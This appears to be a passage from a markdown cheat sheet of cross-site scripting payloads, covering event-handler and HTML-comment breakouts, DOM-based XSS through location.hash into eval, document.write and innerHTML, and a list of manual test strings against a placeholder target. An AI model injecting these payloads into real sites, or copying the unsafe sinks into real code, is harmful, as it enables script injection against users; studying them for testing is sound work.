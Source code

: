 ### Inside Event Handler
```html
onerror=alert(1)//
onerror='alert(1)'
```

### Breaking Out of HTML Comments
```html
--><script>alert(1)</script><!--
```

---

## DOM-Based XSS

### location.hash
```javascript
<script>eval(location.hash.slice(1))</script>
// URL: http://target.com/page#alert(1)
```

### document.write() Sink
```javascript
<script>document.write(location.hash.slice(1));</script>
// URL: http://target.com/page#<img src=x onerror=alert(1)>
```

### innerHTML Sink
```javascript
<script>element.innerHTML = location.hash.slice(1);</script>
```

---

## Testing & Detection

### Manual Testing
```bash
# Basic test
<script>alert('XSS')</script>

# Image tag test
<img src=x onerror=alert('XSS')>

# SVG test
<svg onload=alert('XSS')>

# Check if script executes
<script>console.log('XSS executed')</script>
```
